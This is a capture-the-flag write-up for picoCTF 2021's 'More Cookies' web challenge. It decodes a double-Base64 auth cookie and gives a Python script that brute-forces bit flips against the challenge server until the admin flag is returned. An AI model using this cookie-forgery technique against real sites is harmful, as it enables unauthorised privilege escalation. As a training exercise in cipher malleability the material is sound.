 # More Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 90
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! 

http://mercury.picoctf.net:15614/

Hints:
1. https://en.wikipedia.org/wiki/Homomorphic_encryption
2. The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name
```
Challenge link: [https://play.picoctf.org/practice/challenge/124](https://play.picoctf.org/practice/challenge/124)

## Solution

Browse to the web site with your browser (I used Google Chrome).   
Press F12 to open DevTools and go to the `Application` tab.  
Under `Storage` and then `Cookies` select the web site.  
There is a cookie named `auth_name` with a value that looks like Base64-encoded data.

### Analyse the cookie

Let's decode it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d
3FOkeVgV5m1nsFIXcA+hTMMBrkzTIXj0Rr0m/5O9JSZW7wmvUBvYcDb0Zu5hOi2XOXP06q+ZYPVw1OWmZ5dgG9jxpsOIvLhpIIfAuW03mrjLQUilw+eLeYDjbUwpoDFc
```

Looks like Base64 again.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | base64 -d
�S�yX�mg�Rp�L��L�!x�F�&���%&V�  �Pp6�f�a:-�9s�ꯙ`�p���g�`��È��i ���m7���AH����y��mL)�1\

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | xxd -g 1   
00000000: 33 46 4f 6b 65 56 67 56 35 6d 31 6e 73 46 49 58  3FOkeVgV5m1nsFIX
00000010: 63 41 2b 68 54 4d 4d 42 72 6b 7a 54 49 58 6a 30  cA+hTMMBrkzTIXj0
00000020: 52 72 30 6d 2f 35 4f 39 4a 53 5a 57 37 77 6d 76  Rr0m/5O9JSZW7wmv
00000030: 55 42 76 59 63 44 62 30 5a 75 35 68 4f 69 32 58  UBvYcDb0Zu5hOi2X
00000040: 4f 58 50 30 36 71 2b 5a 59 50 56 77 31 4f 57 6d  OXP06q+ZYPVw1OWm
00000050: 5a 35 64 67 47 39 6a 78 70 73 4f 49 76 4c 68 70  Z5dgG9jxpsOIvLhp
00000060: 49 49 66 41 75 57 30 33 6d 72 6a 4c 51 55 69 6c  IIfAuW03mrjLQUil
00000070: 77 2b 65 4c 65 59 44 6a 62 55 77 70 6f 44 46 63  w+eLeYDjbUwpoDFc
```

Since the encryption is [Homomorphic](https://en.wikipedia.org/wiki/Homomorphic_encryption), changes made to the encrypted form will also affect the decrypted form.  
We can exploit this with a [Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack).

### Write a brute force solver

Let's write a brute force solver script that bit-flips each bit for each byte in the cookie
```python
#!/usr/bin/python

import requests
from base64 import b64decode, b64encode
import re

URL = 'http://mercury.picoctf.net:15614/'
COOKIE = "auth_name"
FLAG_FORMAT = r'picoCTF{[^}]+}'

# Get the cookie
s = requests.Session()
r = s.get(URL)
cookie = s.cookies[COOKIE]
raw_cookie = bytearray(b64decode(b64decode(cookie)))

# Brute force bit-flipping
flag_found = False
for index in range(len(raw_cookie)):
    for i in range(8):
        mask = 1 << i
        #print(f"Bit-flipping index {index} with mask {hex(mask)}")
        raw_cookie[index] ^= mask
        
        flipped_cookie = b64encode(b64encode(raw_cookie)).decode("ascii")
        r = requests.get(URL, cookies = {COOKIE: flipped_cookie})
        match = re.search(FLAG_FORMAT, r.text)
        if match:
            flag_found = True
            print(f"Bit-flipped index {index} with mask {hex(mask)}")
            print(f"Flag: {match.group(0)}")
            break
        raw_cookie[index] ^= mask
    if flag_found:
        break
```

### Get the flag

Then we make sure the script is executable and run it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ chmod +x get_flag.py 

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ ./get_flag.py
Bit-flipped index 9 with mask 0x1
Flag: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack)
- [Wikipedia - Homomorphic encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption) 
- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
